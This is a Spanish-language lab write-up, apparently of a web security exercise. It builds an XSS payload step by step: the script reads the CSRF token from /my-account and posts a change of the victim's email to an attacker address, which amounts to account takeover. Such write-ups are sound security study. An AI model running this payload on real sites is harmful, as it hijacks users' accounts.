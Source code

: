 vemos que la funcionalidad de cambio de email puede establecer el campo de entrada a traves de un parametro GET:

![[Pasted image 20230224234509.png]]

si actualizamos el email vemos que se envia en la peticion:

![[Pasted image 20230224235411.png]]

es una peticion **POST** que envia 2 datos, **email** y **csrf token**. Vamos a hacer uso de `XMLHttpRequest`:

1. primero para hacer una peticion y obtener el csrf-token
2. segundo para cambiar el email

el **csrf-token** se encuentra en **/my-account**:

![[Pasted image 20230224235637.png]]

entonces vamos a crear la primera request:

```html
<script>
const xhttp = new XMLHttpRequest();  
xhttp.onload = `handleResponse;`
xhttp.open("GET", "/my-account", true);  
xhttp.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
};
</script>
```

ahora creamos la segunda peticion:

```html
<script>
const xhttp = new XMLHttpRequest();  
xhttp.open("POST", "/my-account/change-email",true);  
xhttp.send('email=chris%40hacker.com&csrf='+token);
</script>
```

ahora unimos ambos:

```html
<script>
const xhttp = new XMLHttpRequest();  
xhttp.onload = handleResponse;
xhttp.open("GET", "/my-account", true);  
xhttp.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    const xhttp2 = new XMLHttpRequest();  
	xhttp2.open("POST", "/my-account/change-email",true);  
	xhttp2.send('email=chris@hacker.com&csrf='+token);
};
</script>
```
